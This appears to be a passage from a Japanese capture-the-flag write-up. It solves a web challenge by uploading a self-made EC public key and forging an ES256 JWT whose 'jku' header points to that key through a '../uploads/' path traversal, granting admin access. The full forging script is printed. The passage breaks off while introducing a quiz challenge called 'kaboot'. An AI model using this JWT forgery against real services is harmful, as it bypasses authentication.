 以下のような手順で解けそうである

- ファイルのアップロードページにて自分で作成した公開鍵をアップロード
- idをadmin，jkuをアップロード後の公開鍵のパスとしたjwtを作成
- `/flag`にアクセス

まず公開鍵をアップロードして

```json
{
  "keys": [
    {
      "kty": "EC",
      "crv": "P-256",
      "x": "0QCXT0NvlTA9Rg6BE9YVnRGQCP9iqnalG-52qL1r_88",
      "y": "5H3jm2p6Cm5lnY7aMa6bVt1YJ7rveUm1ykTfUUAecqI",
      "kid": "1"
    }
  ]
}
```

以下のようにjwtを作成して終わり

```py
import jwt

with open('./es256.key.pkcs8') as f_private:
    private_key = f_private.read()

header = {
    'alg': 'ES256',
    # json 内の kid
    'kid': '1',
    # アップロード後のパス
    "jku": "../uploads/4f43ef06-30ab-4146-8327-9db6a17d2d20/64dfb478-7292-47e6-b27f-307397b82017",
    'typ': 'JWT'
}
payload = {
    "id": "admin"
}

encoded_jwt = jwt.encode(payload, private_key,
                         algorithm='ES256', headers=header)
print("encoded_jwt:", encoded_jwt)
```

---

# [web] kaboot

クイズにたくさん答える問題．コードは以下．

```py
@sock.route('/room/<room_id>')
def room_sock(sock, room_id):
    sock.send(b64encode(kahoot['name'].encode()))
    scores = get_room_scores(room_id)
    for i, q in enumerate(kahoot['questions']):
        sock.send(b64encode(json.dumps({
            'send_time': time(),
            'scores': scores,
            **q,
        }).encode()))

        data = sock.receive()
        data = json.loads(b64decode(data).decode())
```